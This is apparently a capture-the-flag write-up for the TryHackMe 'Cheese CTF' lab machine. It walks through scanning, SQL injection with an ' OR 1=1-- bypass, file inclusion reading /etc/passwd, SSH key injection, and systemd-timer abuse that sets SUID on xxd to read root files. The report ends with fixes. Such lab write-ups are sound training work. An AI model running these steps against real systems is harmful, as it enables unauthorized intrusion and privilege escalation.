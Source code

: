 **Web Application Security Testing Report**

**Challenge:** Cheese CTF - TryHackMe
**Tester:** Anish aka Mr.White
**Date:** April 23, 2025
**Target IP:** 10.10.158.76
**Operating System:** Linux (Kali)
**Difficulty:** Easy
**Tools Used:** Nmap, FFUF, SQLMap, Burp Suite, SSH, systemctl, LinPEAS, GTFOBins

---

## 1. Objective
To conduct a comprehensive security assessment of the Cheese CTF machine on TryHackMe by identifying and exploiting web application vulnerabilities, and escalating privileges to root access.

---

## 2. Methodology

1. Reconnaissance - Identify open ports and services.
2. Enumeration - Explore web application and uncover hidden pages.
3. Exploitation - Use discovered vulnerabilities for access.
4. Privilege Escalation - Escalate to root-level privileges.
5. Post-Exploitation - Retrieve and document flags.

---

## 3. Tools and Techniques Used

- **Nmap:** For network scanning and service detection.
- **FFUF:** For brute-forcing web directories.
- **SQLMap:** For SQL injection automation.
- **Burp Suite:** For manual HTTP interception and manipulation.
- **SSH:** For remote access to compromised accounts.
- **LinPEAS:** For local privilege escalation enumeration.
- **systemctl:** For exploiting misconfigured systemd timers.
- **GTFOBins:** For privilege escalation via SUID binaries.

---

## 4. Findings and Exploitation

### 4.1 Reconnaissance
**Tool:** Nmap  
**Command:** `nmap -sC -sV -p- 10.10.158.76`

**Results:**
- Port 22/tcp - OpenSSH 8.2p1
- Port 80/tcp - Apache httpd

---

### 4.2 Web Enumeration
**Tool:** FFUF  
**Command:** `ffuf -u http://10.10.158.76/FUZZ -w /usr/share/wordlists/dirb/common.txt`

**Findings:**
- Discovered `login.php` and `secret-script.php`

---

### 4.3 SQL Injection
**Tool:** SQLMap  
**Command:** `sqlmap -u "http://10.10.158.76/login.php" --data="username=admin&password=admin" --dump`

**Exploitation:**
- SQLi vulnerability on `username` parameter.
- Bypassed authentication using `' OR 1=1--`.

---

### 4.4 Local File Inclusion (LFI)
**URL:** `http://10.10.158.76/secret-script.php?file=../../../../etc/passwd`

**Outcome:**
- Confirmed ability to read system files.

---

### 4.5 Remote Code Execution (RCE)
**Technique:** PHP filter chain
**URL:** `http://10.10.158.76/secret-script.php?file=php://filter/convert.base64-encode/resource=secret-script.php`

**Result:**
- Source code revealed sensitive function calls and hardcoded paths.

---

### 4.6 Privilege Escalation to User `comte`
**Steps:**
1. Discovered writable `.ssh/authorized_keys`.
2. Injected SSH public key.
3. Accessed the system with private key.

**Command:** `ssh -i id_rsa comte@10.10.158.76`

---

### 4.7 Privilege Escalation to Root
**Observation:** `comte` can start a custom systemd timer.

**Exploit:**
1. Modified service and timer unit.
2. Timer executed payload setting SUID on `/opt/xxd`.
3. Read root flag using SUID binary:

**Command:** `/opt/xxd /root/root.txt | xxd -r`

---

## 5. Flags Captured

- **User Flag:** `/home/comte/user.txt`
- **Root Flag:** `/root/root.txt`

---

## 6. Recommendations

- Sanitize input fields and use prepared statements to prevent SQL injection.
- Prevent file inclusion by whitelisting accessible paths.
- Secure SSH authorized_keys with strict permissions.
- Restrict systemd timer modification to root only.
- Remove unnecessary SUID binaries or tightly monitor their use.

---



---

**End of Report**

